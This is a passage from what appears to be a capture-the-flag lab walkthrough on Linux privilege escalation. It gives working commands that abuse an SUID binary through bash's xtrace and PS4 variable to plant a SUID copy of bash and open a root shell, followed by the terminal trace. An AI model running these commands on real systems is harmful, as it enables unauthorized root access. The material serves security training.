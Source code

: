 Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

`rm /tmp/rootbash
`exit`

```

user@debian:/usr/local/bin$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1715) already running
.
user@debian:/usr/local/bin$ 

```
